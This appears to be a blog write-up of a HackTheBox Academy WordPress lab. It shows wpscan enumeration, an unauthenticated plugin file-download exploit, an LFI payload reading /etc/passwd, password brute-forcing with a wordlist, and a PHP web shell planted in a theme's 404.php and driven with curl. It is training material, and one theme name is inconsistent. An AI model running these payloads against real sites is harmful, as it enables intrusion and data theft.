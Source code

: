 ```yaml
---
title: 'HTB Academy: Hacking WordPress Module'
author: saramazal
date: 2024-11-05
categories: [HTB Academy]
tags: [HackTheBox Academy, cbbh, cpts, Skills Assessment, wpscan, wordpress]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/wp-cover.png
---
```


##  Skills Assessment
### Penetration Test Scenario:

You have been contracted to perform an external penetration test against the company INLANEFREIGHT that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

## Questions:

1. Identify the WordPress version number.
2. Identify the WordPress theme in use.
3. Submit the contents of the flag file in the directory with directory listing enabled.
4. Identify the only non-admin WordPress user. (Format: `<first-name> <last-name>`)
5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.
6. What is the version number of the plugin vulnerable to an LFI?
7. Use the LFI to identify a system user whose name starts with the letter “f”.
8. Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory.

## Answers:

For identifying the WordPress version number and theme, use one of these tools:

- Wappalyzer Extension
- View Page Source or DevTools
- nmap scan
- `wpscan —url http://<target_ip> —enumerate p`

For receiving results, add target IP to hosts:

```bash
sudo nano /etc/hosts
```

Add: `<target_ip> blog.inlanefreight.local`

Refresh your browser. Now you can find the WordPress version number and theme with Wappalyzer, View Page Source/DevTools, or use `wpscan`.

- **WordPress version number**: 5.1.6
- **WordPress theme in use**: Twenty Nineteen

In our `wpscan`, we can find a link:

`http://blog.inlanefreight.local/wp-content/uploads/`

You can open this link in the browser or use the terminal:

```bash
curl http://blog.inlanefreight.local/wp-content/uploads/upload_flag.txt | html2text
```

- **Flag**: HTB{d1sabl3_……………..!}

For finding users:

```bash
wpscan --url http://blog……/ --enumerate u
```

- **Non-admin user**: Cha**** Wig****

In our `wpscan`, we can find vulnerable plugins and search about them on Google.

One of the plugins:

- **WordPress Plugin**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019-19985

### Exploit Details

- **Exploit Title**: WordPress Plugin Email Subscribers & Newsletters 4.2.2 — Unauthenticated File Download
- **Google Dork**: “Stable tag” inurl:wp-content/plugins/email-subscribers/readme.txt
- **Date**: 2020–07–20
- **Exploit Author**: KBA@SOGETI_ESEC
- **Vendor Homepage**: [Email Subscribers](https://www.icegram.com/email-subscribers/)
- **Software Link**: [Plugin Archive](https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2)
- **Version**: <= 4.2.2
- **Tested on**: Email Subscribers & Newsletters 4.2.2
- **CVE**: CVE-2019–19985

**Example Command**:

```bash
curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- **Flag from vulnerable plugin**: HTB{unauTH_……..!}

From our `wpscan`, we can search the exploit database for:

- **Vulnerable Plugin**: Site Editor
- **CVE ID**: CVE-2018-7422
- **Product**: Site Editor WordPress Plugin — [Site Editor](https://wordpress.org/plugins/site-editor/)
- **Vendor**: Site Editor
- **Tested version**: 1.1.1
- **CVE ID**: CVE-2018–7422

### Proof of Concept

```bash
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **Version number of the plugin vulnerable to an LFI**: 1.1.1

**Use Proof of Concept**:

```bash
http://<$TARGET>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

- **System user**: frank.mclane

Obtain a shell on the system and submit the contents of the flag in the `/home/erika` directory:

```bash
wpscan --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/wordlists/rockyou.txt
```

Login with: `erika:010203`

Go to the theme editor. Select the Twenty Sixteen Theme. Add to the `404.php` page:

```php
system ($_GET['cmd']);
```

Save and check how it works:

```bash
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=pwd'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika'
curl -X GET 'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/dxxxxxxx603c_flag.txt'

```

- **Final Flag**: HTB{w0rdPr355_………7}

  [![HTB Academy Badge](/images/htb-academy/badges/htb-wp.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/e8bc07e8-0d0f-11ef-b18d-bea50ffe6cb4)

[Hacking WordPress Module](https://academy.hackthebox.com/course/preview/hacking-wordpress)

## Great! Happy Hacking!
